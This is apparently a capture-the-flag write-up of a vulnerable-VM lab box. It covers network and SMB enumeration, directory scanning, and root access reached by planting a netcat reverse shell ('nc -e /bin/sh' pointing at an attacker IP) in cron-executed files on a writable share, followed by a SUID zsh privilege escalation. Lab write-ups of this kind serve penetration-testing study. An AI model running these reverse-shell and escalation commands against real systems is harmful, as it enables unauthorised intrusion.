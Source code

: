 

### **Netdiscover**

<img src="images/Screen Shot 2019-09-15 at 11.57.20 PM.png" alt="Screen Shot 2019-09-15 at 11.57.20 PM"  />

We use the tools called netdiscover scan hosts, we found the 192.168.0.107 is our target virtualbox host ip.

------

### **Namp**

<img src="images/Screen Shot 2019-09-15 at 11.57.43 PM.png" alt="Screen Shot 2019-09-15 at 11.57.43 PM" style="zoom:50%;" />

We found some services  <u>HTTP</u>, <u>SMB</u>, <u>MYSQL</u> 

------

### Enum4linux

<img src="images/Screen Shot 2019-09-16 at 12.07.28 AM.png" alt="Screen Shot 2019-09-16 at 12.07.28 AM" style="zoom:50%;" />

<img src="images/Screen Shot 2019-09-16 at 12.08.48 AM.png" alt="Screen Shot 2019-09-16 at 12.08.48 AM" style="zoom:100%;" />

When we see smbd service , we use enum4linux scan smbd service config and basic infomation, we not found user but we find a smb share filefolder: <u>*IPC$*</u> , <u>ITDEPT</u> and user: <u>*dawn, ganimedes*</u>

------

### Smbclient

<img src="images/Screen Shot 2019-09-16 at 12.13.21 AM.png" alt="Screen Shot 2019-09-16 at 12.13.21 AM" style="zoom:50%;" />

By using smbclient connect , We could found this existed **<u>web-control, product-control</u>**.

------

### Msf dir_scanner

<img src="images/Screen Shot 2019-09-16 at 12.31.41 AM.png" alt="Screen Shot 2019-09-16 at 12.31.41 AM" style="zoom:100%;" />

At First, I intend to try a dict by kail linux to do a basic dir scanner, if not successfully , i will try a big dir dict by **gobuster** , luckily, we find /logs is existd.

------

### Solution

<img src="images/Screen Shot 2019-09-16 at 12.36.41 AM.png" alt="Screen Shot 2019-09-16 at 12.36.41 AM" style="zoom:100%;" />

<img src="images/Screen Shot 2019-09-16 at 12.39.01 AM.png" alt="Screen Shot 2019-09-16 at 12.39.01 AM" style="zoom:50%;" />


When we link to this <u>192.168.0.107/logs/</u>, We can find some file。By reading these files, this management.log is a log file,  we can find target host exists a crontab job chmod 777 product-control, web-control, so that we can reverse shell by these two file with samba share file folder.

`echo 'nc -e /bin/sh 192.168.0.105 2333' > web_product`

`echo 'nc -e /bin/sh 192.168.0.105 2333' > product_product`

wait a little time , then crontab job run.....

<img src="images/Screen Shot 2019-09-16 at 12.52.30 AM.png" alt="Screen Shot 2019-09-16 at 12.52.30 AM" style="zoom:50%;" />

<img src="images/Screen Shot 2019-09-16 at 12.52.38 AM.png" alt="Screen Shot 2019-09-16 at 12.52.38 AM" style="zoom:100%;" />


we use dawn users, we do some privilege escalate.

`find / -perm -u=s 2>/dev/null`

<img src="images/Screen Shot 2019-09-16 at 1.23.17 AM.png" alt="Screen Shot 2019-09-16 at 1.23.17 AM" style="zoom:100%;" />

<img src="images/Screen Shot 2019-09-16 at 1.24.03 AM.png" alt="Screen Shot 2019-09-16 at 1.24.03 AM" style="zoom:100%;" />

So we use /usr/bin/zsh to do it.

<img src="images/Screen Shot 2019-09-16 at 1.26.25 AM.png" alt="Screen Shot 2019-09-16 at 1.26.25 AM" style="zoom:100%;" />

congratulation... then we go into /root, can see this flag. 

<img src="images/Screen Shot 2019-09-16 at 1.28.54 AM.png" alt="Screen Shot 2019-09-16 at 1.28.54 AM" style="zoom:50%;" />

------

OS: Other ways,  i will append in my github if i can find themselves.T_T

------

**That' all , Thanks for your watching**